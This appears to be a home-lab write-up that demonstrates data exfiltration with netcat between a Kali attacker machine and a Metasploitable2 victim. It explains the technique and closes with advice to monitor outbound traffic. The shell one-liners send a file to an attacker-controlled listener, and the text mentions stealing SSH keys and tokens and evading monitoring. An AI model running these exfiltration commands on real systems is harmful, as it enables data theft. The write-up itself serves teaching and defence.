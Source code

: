 ## 🛑 Attack Simulation 10: Data Exfiltration via Netcat (Post-Exploitation)

This simulation demonstrates **data exfiltration** — a common **post-exploitation** technique used by attackers **after gaining access** to a target system. While it may appear that the victim "initiates" the transfer, in reality, the attacker **orchestrates the entire flow**.

---

### 🧠 What Is Data Exfiltration?

**Data exfiltration** is the process of **stealing data from a compromised system** and sending it to an external attacker-controlled machine. It is one of the final steps in an attack chain, after:

1. Reconnaissance
2. Initial access
3. Privilege escalation
4. **Post-exploitation & exfiltration**

In this simulation, I used a **simple, stealthy exfiltration** method using `netcat` (a network utility) to transfer files from the victim to the attacker's system.

---

### ⚙️ Tools Used

| Tool     | Purpose                                      |
|----------|----------------------------------------------|
| Kali     | Attacker machine (listener)                  |
| Metasploitable2 | Victim machine (compromised target)       |
| Netcat (`nc`) | Lightweight tool for reading/writing data over TCP/UDP |

---

### ⚡ What Is Netcat?

**Netcat** (often called the *Swiss Army knife of networking*) is a simple command-line utility that can:

- Send or receive raw data over TCP or UDP
- Create reverse shells
- Listen on ports or connect to open services
- Easily transfer files over a network

Netcat can act in two modes:
- **Listener (server)** mode: waits for incoming connections
- **Client (sender)** mode: connects and sends data

---

### 💻 Step-by-Step: Simulated Exfiltration

#### ✅ On Kali (Attacker) - Start Listener

```bash
nc -lvp 4444 > exfiltrated.txt
```

Explanation:
- `-l`: Listen mode (passive)
- `-v`: Verbose (see connections)
- `-p 4444`: Listen on port 4444
- `> exfiltrated.txt`: Save incoming data into this file

At this point, Kali is **waiting** to receive data.

---

#### ✅ On Metasploitable2 (Victim) - Send Data

```bash
nc 192.168.1.30 4444 < secret.txt
```

**Explanation:**

- `nc 192.168.1.30 4444`: Initiates a TCP connection to the attacker's machine (Kali) on port `4444`.
- `< secret.txt`: Redirects the contents of the file `secret.txt` into the TCP stream — meaning the contents of `secret.txt` will be sent over the network to the attacker.

![Data Exfiltration](../../screenshots/attack-simulation-10/Data%20Exfiltration.png)

*Figure 1: Data Exfiltration*

✅ This sends the entire content of `secret.txt` directly to the attacker's Netcat listener, which writes the data into a file (`exfiltrated.txt`).

> 🧠 Note: This method is especially useful for sending complete files silently in one shot, without needing to open a shell or use `cat`.

---

### 🤔 Question: "Is This Even an Attack If the Victim Sends the Data?"

At first glance, this seems **backward** — the **victim is sending the data**, not the attacker stealing it.

But here's the key:

> ✅ **The attacker is in control** — they **run the command on the victim system** after gaining a shell or exploiting a vulnerability.

So yes — it’s absolutely an attack. The attacker is simply using the victim to “willingly” send the data out, often to **bypass firewalls or egress filters**.

---

### 🧠 Analogy: The Window Drop

Imagine a burglar is already inside a building (your system). Instead of walking out the front door carrying files:

- They **open a window**
- **Drop files** to an accomplice waiting outside

💡 From the outside, it might look like the building "sent" something — but it was **orchestrated by the attacker inside**.

This is how attackers evade detection and quietly exfiltrate sensitive information.

---

### 🔐 Real-World Use Cases

In real attacks, this technique is used to:

- Steal config files, SSH keys, password hashes
- Exfiltrate tokens, source code, logs
- Evade endpoint monitoring tools

Often it's wrapped in:
- **Base64 encoding**
- **Over common ports** like 443, 80
- Or encrypted via OpenSSL + Netcat

---

### 📌 Recap Table

| Role        | Machine           | Action                                        |
|-------------|-------------------|-----------------------------------------------|
| Attacker    | Kali (192.168.1.30) | Listen on port 4444, save data to file        |
| Victim      | Metasploitable2 (192.168.1.155) | Use netcat to send file contents to attacker  |
| Outcome     | `exfiltrated.txt` created on attacker machine with sensitive data |

---

### ✅ Summary

- This was a **post-exploitation attack**.
- The attacker used a **simple one-liner** to exfiltrate data from a compromised machine.
- Netcat makes it **easy to move data** without setting up SSH, FTP, or other services.
- Even though the command is run on the victim, it is **controlled and initiated by the attacker**.

---

### 🧠 Final Thoughts

This kind of **stealthy, low-noise exfiltration** is common in red teaming and real-world breaches. Firewalls often allow outbound TCP, and attackers take advantage of that.

> 🔴 **Lesson:** Never assume outbound traffic is safe. Monitor it.